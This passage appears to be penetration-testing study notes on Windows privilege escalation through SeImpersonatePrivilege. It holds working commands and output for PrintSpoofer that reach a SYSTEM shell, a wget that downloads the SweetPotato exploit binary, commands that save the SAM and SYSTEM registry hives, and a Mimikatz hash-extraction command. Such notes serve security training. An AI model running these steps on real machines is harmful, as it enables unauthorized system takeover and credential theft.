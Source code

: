 ```
.\PrintSpoofer64.exe -i -c powershell.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32> whoami
whoami
nt authority\system
```
+ Above shows that we successfully performed the privilege escalation attack using _PrintSpoofer_, leading us to an interactive PowerShell session in the context of the user account _NT AUTHORITY\SYSTEM_

While PrintSpoofer provided us a straightforward exploit process to elevate our privileges, there are also other tools that can abuse _SeImpersonatePrivilege_ for privilege escalation
+ Variants from the _Potato_ family (for example _RottenPotato_, _SweetPotato_, or _JuicyPotato_) are such tools:
```
wget https://raw.githubusercontent.com/uknowsec/SweetPotato/master/SweetPotato-Webshell-new/bin/Release/SweetPotato.exe
```
+ We should take the time to study these tools as they are an effective alternative to PrintSpoofer

### Hash extraction with SeImpersonatePrivilege

_Mimikatz_ with only the *SeImpersonatePrivilege* token can extract hashes after first dumping the sam and system files
+ Will dump the sam and system file with the following commands
```
reg save hklm\sam .\sam
reg save hklm\system .\system
```
+ *Mimikatz* command with those dumped files to get hashes:
```
lsadump::sam /system:.\system /sam:.\sam
```



[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> cd C:\
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> pwd
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> dir